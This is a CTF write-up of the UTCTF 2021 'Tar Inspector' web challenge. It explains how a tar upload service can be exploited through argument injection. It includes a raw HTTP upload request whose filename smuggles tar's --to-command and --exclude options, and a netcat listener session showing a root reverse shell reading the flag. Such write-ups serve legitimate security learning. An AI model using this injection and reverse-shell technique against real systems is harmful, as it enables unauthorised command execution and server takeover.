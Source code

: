 ```yaml
---
layout: post
date: 2021-03-14 00:00:11
title: "UTCTF 2021 Write Up"
categories: CTF
tags: [RCE]
author:
  - Jeongwon Jo

---
```

## <span style="color:#21C587"></span> (Web) Tar Inspector [994 pts]

> Tar Inspector challenge is get the shell using RCE and read the flag

Many people asked for a hint and the contest provided the code for the secure_filename() function. And first, I'll see `secure_filename()`.

```python
# creates a secured version of the filename
def secure_filename(filename):
    # strip extension and any sneaky path traversal stuff
    filename = filename[:-4]
    filename = os.path.basename(filename)
    # escape shell metacharacters
    filename = re.sub("(!|\$|#|&|\"|\'|\(|\)|\||<|>|`|\\\|;)", r"\\\1", filename)
    filename = re.sub("\n", "", filename)
    # add extension
    filename += '__'+hex(randrange(10000000))[2:]+'.tar'
    return filename
```
You can see that the secure_filename() function gets the file name excluding the extension, escapes all special characters, and creates a new file name by including a random value between the file names.

![](https://github.com/wjddnjs33/image/blob/main/UTCTF%202021/1.png?raw=true)

Go into the challenge and you can will see the file upload function.

![](https://github.com/wjddnjs33/image/blob/main/UTCTF%202021/2.png?raw=true)

If you upload any file, you can see that only the `.tar` extension can be uploaded. Probably I need to make RCE happen when i unpack the tar file. When unpack the tar file, I can execute file `using --to-command` option :)

- Scenario

1. I compress the reverse shell code to tar file and I upload in server.
2. If you upload the tar file, you can see the newly created file name.
3. If you upload the created file again by name, it will be unpack and the file will be executed. Obviously, you need to add the `--to-command` option at this time.
4. And since the last in the file must be `.tar`, you can bypass it using the `--exclude` option.

![](https://github.com/wjddnjs33/image/blob/main/UTCTF%202021/3.png?raw=true)

After uploading the tar file, you can see a file named `pocas__bf9d0.tar` was created :) Now, When you unpack the `pocas__bf9d0.tar` file, you can execute the reverse shell file.

```
POST /upload HTTP/1.1
Host: web2.utctf.live:8123
Content-Length: 1566
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytCvRhaPJjhVCXGrN
Connection: close

------WebKitFormBoundarytCvRhaPJjhVCXGrN
Content-Disposition: form-data; name="file"; filename="pocas__bf9d0.tar --to-command=python3${IFS}pocas.py --exclude=pocas.tar"
Content-Type: application/x-tar


------WebKitFormBoundarytCvRhaPJjhVCXGrN--

```
I used the `--to-command`/`--exclude` option as above.

```
root@py:~# nc -lp 80
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/tmp/extracts
# cat /flag.txt
utflag{bl1nd_c0mmand_1nj3ct10n?_n1c3_w0rk}
#
```
You can see that it is unpacked, and the file is executed to get the shell :)

> FLAG : utflag{bl1nd_c0mmand_1nj3ct10n?_n1c3_w0rk}

---
